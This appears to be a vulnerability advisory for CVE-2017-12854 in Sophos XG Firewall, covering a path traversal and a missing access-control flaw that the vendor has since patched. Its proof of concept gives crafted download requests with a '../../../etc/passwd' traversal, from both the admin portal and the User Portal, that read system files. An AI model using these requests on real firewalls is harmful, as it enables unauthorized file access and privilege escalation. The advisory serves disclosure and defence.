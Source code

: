 ## Vulnerabilities Summary
The following advisory describe two (2) vulnerabilities, a Path Traversal and a Missing Function Level Access Control, in Sophos XG Firewall 16.05.4 MR-4.

Sophos XG Firewall provides “unprecedented visibility into your network, users, and applications directly from the all-new control center. You also get rich on-box reporting and the option to add Sophos iView for centralized reporting across multiple firewalls”.

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program

## Vendor response
The vendor has released patches to address this vulnerability:
“The patches were released as part of SFOS 16.05.5 MR5:
https://community.sophos.com/products/xg-firewall/b/xg-blog/posts/sfos-16-05-5-mr5-released

Our internal bug number was NC-18958, mentioned in the changelog”

CVE: CVE-2017-12854

## Vulnerabilities Details
The Sophos XG Firewall hosts 2 different web portals. The first is the web administration portal used to manage the firewall (Sophos XG Fireweal portal), the second is the “User Portal” used to unprivileged user to access to a restricted group of function like to trace their traffic quotas, to see SMTP quarantined mail and to download authentication client.

The appliance has a web download function in Sophos XG Fireweal portal to allow downloading of a range of file like, logs and certificate keys.

Crafting the download request and adding a path traversal vector to it, an authenticated user, can use this function to download files that are outside the normal scope of the download feature (including sensitive files).

In addition, the function can be called from a low privileged user, a user that is logged on to the User Portal (i.e. Missing Function Level Access Control), a combinations of these two vulnerabilities can be used to compromise the integrity of the server, by allowing a User Portal to elevate his privileges.

## Proof of Concept
Log in the Sophos XG Firewall admin portal



Using developer tools of Firefox (F12) or analyzing the html code of the loaded page (Cyberoam.c$rFt0k3n parameter), extract the csrf code.





Open the Hackbar or use other tools to send a new crafted request:


```
URL https://192.168.0.188:4444/webconsole/Controller?filename=../../../etc/passwd&mode=4010
    postdata csrf=<== THE PARAMETER YOU HAVE FOUND ==>
    referrer https://192.168.0.188:4444/webconsole/webpages/index.jsp
```


This will start the download of the /etc/passwd file:





Create from the admin portal an user of the User Portal (Authentication > User > Add)





Login in the User Portal using the new user



Using developer tools of Firefox or analyzing the html code of the loaded page (Cyberoam.c$rFt0k3n parameter), extract the csrf code.

Open the hack bar or use other tools to send a new crafted request:


```
URL https://192.168.0.188/userportal/Controller?filename=../../../etc/passwd&mode=4010&json=%7B%22lang%22%3A%220%22%7D
    postdata csrf=<== THE PARAMETER YOU HAVE FOUND ==>
    referrer https://192.168.0.188/userportal/webpages/myaccount/index.jsp
```

This will start the download